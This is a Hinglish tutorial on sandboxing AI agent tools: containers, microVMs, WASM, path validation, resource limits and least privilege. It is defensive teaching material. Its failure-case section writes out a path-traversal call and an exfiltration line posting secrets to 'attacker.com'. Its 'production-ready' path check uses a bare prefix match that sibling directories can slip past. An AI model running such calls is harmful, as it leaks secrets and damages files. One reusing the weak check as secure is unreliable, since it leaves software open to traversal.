

# 🛡️ Safe Tool Use & Execution: The Sandboxed Agent
> **Level:** Advanced | **Language:** Hinglish | **Goal:** Master the infrastructure and policies required to allow agents to interact with the world without compromising the host system.

---

## 🧭 1. Beginner-Friendly Hinglish Explanation
Safe Tool Use ka matlab hai AI ko **"Pinjre" (Sandbox)** mein rakh kar hathiyaar dena.

- **The Problem:** Agar aap AI ko ek "Hammer" (Tool) doge, toh wo ghar ki deewar bhi tod sakta hai aur keel (nail) bhi laga sakta hai.
  - Ek agent jo `delete_file` kar sakta hai, wo galti se `C:/Windows` uda sakta hai.
- **The Solution:** Humein "Hathiyaar" (Tools) dene ke saath-saath unka "Dairaa" (Scope) fix karna padta hai.
  - **Sandboxing:** AI sirf ek temporary folder mein files dekh sake.
  - **Permissioning:** AI sirf "Apni" files delete kar sake, system ki nahi.
  - **Confirmations:** Bade kaam (like payment) se pehle insaan se pucho.

Tool use ko "Safe" banana hi AI engineering ka sabse bada challenge hai.

---

## 🧠 2. Deep Technical Explanation
Safely executing agent actions requires a combination of **Infrastructure Isolation** and **Runtime Validation**.

### 1. Infrastructure Isolation (The Sandbox):
- **Containerization (Docker):** Running tools inside a short-lived container with no access to the host's filesystem or network.
- **MicroVMs (Firecracker):** Even higher isolation than Docker. Each agent gets its own virtual machine.
- **WebAssembly (WASM):** Running code in a restricted runtime that has zero access to the OS unless explicitly allowed.

### 2. Runtime Validation:
- **Parameter Checking:** Ensuring the `path` argument in a `delete_file` call starts with `/tmp/agent_files/` and not `/`.
- **Dry Runs:** The agent simulates the tool call and sees the "Potential" effect before actually running it.
- **Resource Quotas:** Limiting CPU, RAM, and Disk space for any tool execution to prevent "Fork Bombs" or "Denial of Service."

### 3. Capability Scoping:
Using the **Principle of Least Privilege**. If an agent only needs to read files, don't give it "Write" permissions.

---

## 🏗️ 3. Architecture Diagrams (The Secure Execution Environment)


---

## 💻 4. Production-Ready Code Example (A Validated File Tool)
```python
# 2026 Standard: Enforcing a 'Safe Path' constraint on a tool

import os

def safe_delete_file(filename):
    # 1. Define the 'Allowed Zone'
    SAFE_DIR = os.path.abspath("./agent_sandbox/")
    target_path = os.path.abspath(os.path.join(SAFE_DIR, filename))
    
    # 2. Security Check: Path Traversal Prevention
    if not target_path.startswith(SAFE_DIR):
        return "❌ SECURITY ERROR: You are not allowed to access files outside the sandbox."
    
    # 3. Execute
    try:
        os.remove(target_path)
        return "✅ File deleted successfully."
    except Exception as e:
        return f"❌ Error: {str(e)}"

# Insight: Never trust the LLM's provided 'Path' or 'Filename' directly.
```

---

## 🌍 5. Real-World Use Cases
- **Cloud IDE Agents (Cursor/GitHub Copilot):** Running your code in a isolated container to check for bugs.
- **Database Query Agents:** Running SQL in a "Read-Only" replica so the AI can't accidentally delete your data.
- **Browsing Agents:** Using a "Headless Browser" in a sandbox to prevent the AI from accessing your local cookies or passwords.

---

## ❌ 6. Failure Cases
- **Path Traversal:** An agent calling `delete_file("../../../config.yaml")`.
- **Network Exfiltration:** An agent running a Python script that sends your data to an external server: `requests.post("attacker.com", data=secrets)`. **Fix: Disable Network.**
- **Infinite Loops:** An agent running `while True: print("Hello")` and filling up the server's logs/CPU.

---

## 🛠️ 7. Debugging Guide
| Symptom | Cause | Fix |
| :--- | :--- | :--- |
| **Tool fails with 'Permission Denied'** | Sandbox is too strict | Check the **Volume Mounts** in Docker to ensure the agent has access to the *correct* temp folder. |
| **Agent is taking up too much CPU** | No resource limits | Add `--cpus="0.5"` and `--memory="512m"` to your Docker run command. |

---

## ⚖️ 8. Tradeoffs
- **Docker vs. Local:** Local is fast/easy; Docker is secure but adds $2-3$ seconds of startup latency.
- **Full Network vs. No Network:** No network is $100\%$ safe but the agent can't use Google or external APIs.

---

## 🛡️ 9. Security Concerns (Extreme)
- **Container Escape:** Highly advanced attacks where code inside Docker escapes to the Host OS. **Fix: Use gVisor or Kata Containers.**
- **Supply Chain Attacks:** The agent `pip install`-ing a malicious library inside the sandbox.

---

## 📈 10. Scaling Challenges
- **Sandbox Lifecycle:** Spawning and killing 100 containers per second. **Solution: Use a 'Pool' of pre-warmed containers.**

---

## 💸 11. Cost Considerations
- **Compute Overhead:** Running 100 MicroVMs is much more expensive than running 100 Python threads.

---

## 📝 12. Interview Questions
1. How do you prevent "Path Traversal" in a file-system tool?
2. Why is a Docker container safer than a Python `subprocess`?
3. What is the "Principle of Least Privilege" for agents?

---

## ⚠️ 13. Common Mistakes
- **Running as Root:** Never, ever run the agent process or its sandbox as the `root` user.
- **Sharing the Home Directory:** Mounting the user's `/home/` folder into the agent's sandbox.

---

## ✅ 14. Best Practices
- **Timeout Everything:** No tool should be allowed to run for more than 10 seconds.
- **White-list Tools:** Only give the agent tools it *explicitly* needs.
- **Review Tool Logs:** Periodically audit the logs to see if the agent tried to do something "Sneaky."

---

## 🚀 15. Latest 2026 Industry Patterns
- **WASM-only Agents:** Organizations forcing all agent tools to be written in WebAssembly for $100\%$ predictable security.
- **Snapshot Resumption:** Pausing a sandbox, saving its state, and resuming it later when the agent needs it again.
- **Human-on-the-Keyboard:** A security mode where the AI can "Suggest" an action, but a human must physically press a key to execute it.
